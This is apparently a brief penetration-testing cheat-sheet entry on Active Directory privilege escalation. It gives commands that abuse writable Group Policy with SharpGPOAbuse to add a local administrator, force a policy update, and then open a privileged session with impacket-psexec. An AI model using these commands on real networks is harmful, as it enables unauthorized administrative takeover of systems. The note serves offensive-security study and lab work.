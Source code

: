 # if you can write to gpo

use SharpGPOAbuse.exe
see https://github.com/FSecureLABS/SharpGPOAbuse for more infos

```cmd
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <username> --GPOName "vulnerablegponame"
```

and update gpo after

```cmd
gpupdate /force
```

## switch user after adding user to group

after you add your user to local admin group use impacket to switch to high priv user

```cmd
impacket-psexec <domain>/<user>@"$rhost"
```
